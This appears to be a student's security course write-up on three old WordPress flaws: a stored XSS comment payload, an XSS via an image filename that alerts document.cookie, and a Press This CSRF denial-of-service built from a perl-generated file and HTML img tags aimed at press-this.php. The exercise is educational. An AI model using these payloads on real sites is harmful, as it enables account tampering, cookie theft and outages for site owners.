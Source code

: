 # Week7Alternate

Exploit 1

Unauthenticated Stored Cross-Site Scripting (XSS)

Vulnerable in WordPress 4.2

Fixed in WordPress 4.2.1

Comments can store XSS, which can be activated if the comment is viewed. One could put in an XSS command that would abuse admin abilities to mess with their wordpress site, such as changing their password or deleting certain pages or other information.

Enter the following as a comment:

<a title='x onmouseover=alert(unescape(/hello%20world/.source))
style=position:absolute;left:0;top:0;width:5000px;height:5000px
 AAAAAAAAAAAA [64 kb] ...'></a>
 And then wait for someone to view the comment.
 
Exploit 2

Authenticated Stored Cross-Site Scripting via Image Filename

Vulnerable in multiple versions as early as 2.5 and as far as 4.6

fixed in Version 4.2.10 for 4.2, one of its latest fixes in 4.6.1

WordPress basically doesn't do validation on the names of image files uploaded to wordpress. This means an attacker can put in malicious javascript code into wordpress.

To recreate this exploit, upload a file with the name "cengizhansahinsumofpwn<img src=a onerror=alert(document.cookie)>.jpg" into wordpress. Once the image is viewed in wordpress, the code should execute.
 
Exploit 3

Press This CSRF DoS
 
Vulnerable in multiple versions of Word Press from 4.2 to 4.7.2

fixed in Version 4.2.13 for 4.2, latest fix in 4.7.3

The "Press This" function of Word Press can scan a URL but there's no limit to the maximum amount of data that can be scanned from the link. Basically, taking advantage of this and tricking an admin of a WordPress page to look into it, an admin's WordPress server will be forced to download an almost infinite amount of data, making the server unavailable for a while.

On another server, create a textfile with the command "perl -e 'print "<>"x28000000' > foo.txt" and another file called "dos.html". In the dos.html file, make sure there are enough entries to fill the WordPress server's connection pool, like:

<|img src='http://<wp server>/wp-admin/press-this.php?u=http%3A%2F%2F<external server>%2Ffoo.txt&url-scan-submit=Scan&a=b'|>
<|img src='http://<wp server>/wp-admin/press-this.php?u=http%3A%2F%2F<external server>%2Ffoo.txt&url-scan-submit=Scan&a=c'|>
<|img src='http://<wp server>/wp-admin/press-this.php?u=http%3A%2F%2F<external server>%2Ffoo.txt&url-scan-submit=Scan&a=d'|>

etc. etc., with "external server" being the external server address and "wp server" replaced with the word press server's address.

(Be sure to take out the "|" in the "<|img" and "|>" from above to make them work)
